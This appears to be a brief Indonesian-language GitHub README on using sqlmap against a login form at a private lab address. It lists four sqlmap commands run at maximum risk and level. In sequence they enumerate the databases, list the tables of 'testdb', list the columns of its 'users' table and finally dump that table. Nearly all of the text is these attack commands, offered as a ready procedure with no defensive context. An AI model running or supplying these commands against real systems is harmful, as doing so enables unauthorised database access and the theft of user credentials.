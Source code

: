 # sqlmap show database tabel colum #

1.Temukan Struktur Database:

````
sqlmap -u "http://192.168.1.2/pe/index.php" --data="username=admin&password=admin" --batch --risk=3 --level=5 --dbs
````
2.Temukan Struktur tabel:
 dengan di masukanya nama dataBase (-D testdb) + --tables
````
sqlmap -u "http://192.168.1.2/pe/index.php" --data="username=admin&password=admin" --batch --risk=3 --level=5 -D testdb --tables
````
3.Temukan  isi structur tabel :
 dengan menambahakanya nama tabel (-D testdb -T users ) + --columns
````
sqlmap -u "http://192.168.1.2/pe/index.php" --data="username=admin&password=admin" --batch --risk=3 --level=5 -D testdb -T users --columns
````
4..Temukan Struktur isi columns:
  dengan menambahakan peruintah (--dump)  
````
sqlmap -u "http://192.168.1.2/pe/index.php" --data="username=admin&password=admin" --batch --risk=3 --level=5 -D testdb -T users --dump       

````

